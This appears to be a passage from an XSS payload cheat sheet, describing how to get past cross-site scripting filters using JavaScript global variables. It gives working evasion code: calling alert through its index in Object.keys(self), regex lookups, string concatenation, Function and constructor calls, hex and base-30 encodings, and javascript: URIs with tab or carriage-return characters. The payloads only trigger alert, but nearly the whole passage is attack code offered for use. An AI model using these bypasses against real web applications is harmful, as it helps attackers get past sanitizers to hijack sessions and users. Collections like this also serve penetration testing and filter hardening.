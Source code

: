 From [@theMiddle](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/) - Using global variables

The Object.keys() method returns an array of a given object's own property names, in the same order as we get with a normal loop. That's means that we can access any JavaScript function by using its **index number instead the function name**.

```javascript
c=0; for(i in self) { if(i == "alert") { console.log(c); } c++; }
// 5
```

Then calling alert is :

```javascript
Object.keys(self)[5]
// "alert"
self[Object.keys(self)[5]]("1") // alert("1")
```

We can find "alert" with a regular expression like ^a[rel]+t$ :

```javascript
a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}} //bind function alert on new function a()

// then you can use a() with Object.keys

self[Object.keys(self)[a()]]("1") // alert("1")
```

Oneliner:
```javascript
a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}};self[Object.keys(self)[a()]]("1")
```

From [@quanyang](https://twitter.com/quanyang/status/1078536601184030721) tweet.

```javascript
prompt`${document.domain}`
document.location='java\tscript:alert(1)'
document.location='java\rscript:alert(1)'
document.location='java\tscript:alert(1)'
```

From [@404death](https://twitter.com/404death/status/1011860096685502464) tweet.

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;

constructor.constructor("aler"+"t(3)")();
[].filter.constructor('ale'+'rt(4)')();

top["al"+"ert"](5);
top[8680439..toString(30)](7);
top[/al/.source+/ert/.source](8);
top['al\x65rt'](9);

open('java'+'script:ale'+'rt(11)');
location='javascript:ale'+'rt(12)';

setTimeout`alert\u0028document.domain\u0029`;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```
